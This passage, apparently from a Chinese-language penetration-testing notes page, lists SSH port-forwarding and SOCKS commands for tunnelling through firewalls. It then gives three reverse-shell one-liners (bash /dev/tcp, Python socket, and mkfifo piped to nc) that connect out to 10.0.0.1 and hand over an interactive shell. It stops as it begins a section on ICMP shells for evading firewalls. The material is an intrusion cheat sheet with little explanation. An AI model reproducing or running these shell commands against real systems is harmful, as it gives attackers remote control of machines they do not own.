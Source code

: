 ##### ssh通道  
http://staff.washington.edu/corey/fw/ssh-port-forwarding.html  
1、端口转发  
```
本地访问127.0.0.1:port1就是host:port2(用的更多)
ssh -CfNg -L port1:127.0.0.1:port2 user@host    #本地转发

访问host:port2就是访问127.0.0.1:port1
ssh -CfNg -R port2:127.0.0.1:port1 user@host    #远程转发

可以将dmz_host的hostport端口通过remote_ip转发到本地的port端口
ssh -qTfnN -L port:dmz_host:hostport -l user remote_ip   #正向隧道，监听本地port

可以将dmz_host的hostport端口转发到remote_ip的port端口
ssh -qTfnN -R port:dmz_host:hostport -l user remote_ip   #反向隧道，用于内网穿透防火墙限制之类
```

2、socks  
```
socket代理:
ssh -qTfnN -D port remotehost
```
![](./pic/3_proxy/8.jpg)  

### 获取shell  
##### 常规shell反弹  
几个常用：  
```python  
1、bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

2、python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

3、rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

##### 突破防火墙的imcp_shell反弹
有时候防火墙可能对tcp进行来处理，然而对imcp并没有做限制的时候，就可以来一波~  
kali运行(其中的ip地址填写为目标地址win03)：  